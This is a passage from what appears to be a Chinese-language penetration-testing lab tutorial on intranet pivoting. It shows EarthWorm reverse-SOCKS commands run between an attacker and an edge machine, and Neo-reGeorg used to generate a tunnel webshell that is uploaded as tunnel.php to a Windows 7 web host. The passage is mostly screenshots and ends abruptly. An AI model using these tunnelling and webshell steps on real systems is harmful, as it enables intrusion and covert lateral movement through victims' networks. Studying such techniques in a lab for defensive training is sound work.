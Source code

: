 攻击机器上执行

```
ew_for_Win.exe -s rcsocks -l 1080 -e 1234
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTlDiaQyVAMj9F0DjZ7T33Yp9Z3MdWyY3v3MU5Zgh4Z2Jv3v6kLiakhqTQ/640?wx_fmt=png)

对外 1234 端口转发到 1080 端口

然后边缘机器连接

```
ew_for_Win.exe -s rssocks -d 192.168.10.3 -e 1234
```

```
python neoreg.py generate -k 123456
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTSFLlEIZQNEsZMibs54mdCspKiaiaLzyNCISOIEmtt5XTwYia4gNxNoCLAQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTdYzPyp6CErzeNXXiaCZVRR0dKFNTfW7gw4NLYGn88Uc6v7QrZzk65KQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfT00wRdAeABTAvJYy47M1tOJfOFURbNhsgqKib3Y5h2Jve18D6Cy9BjCw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTVPMUEo0PhThHaaNicaB4Gia2lokicTOea611vL3dDHcAcktOHCDgZ7Idw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTnjyMpXJSrQ2Vl17S66CuHT3iaOW3ukBAiaaNtdF01jZEBQiaSWGFRLX3Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTDcD3axoFBZ9IG0ADfdV3ykskXdYlicukTRNNnBym6W5UicugVvkGcxibw/640?wx_fmt=png)

**0x03 Neo-reGeorg**

注：这里需要 python 环境，在 2008R2 上弄总是出错，切到物理机进行实验，原理相同

生成文件

```
python neoreg.py -k 123456 -u http://192.168.10.15/tunnel.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTah64aiaW8ecDRDfzZibgkNo4lt3hC8Fb27dkvmvPp1fDRlYmfcoT4Hdw/640?wx_fmt=png)

在 neoreg_servers 目录下生成了木马文件  

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTsib7CbLQcW5P0yYbN8P0dXZzXZoicurwcaRic6AJyqqgd3A3UyZp5rUbg/640?wx_fmt=png)

这里 web 机器解析 php，所以我上传一个 tunnel.php 的马到 web 机器（win7）上  

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTuNAMOvqaT8H8dia8RrrZ4bFZ2TYGdtkCXXesiaI6A9kdj0iaqkehSDYHw/640?wx_fmt=png)

攻击机连接  

```
admin.exe -lport 9999
```
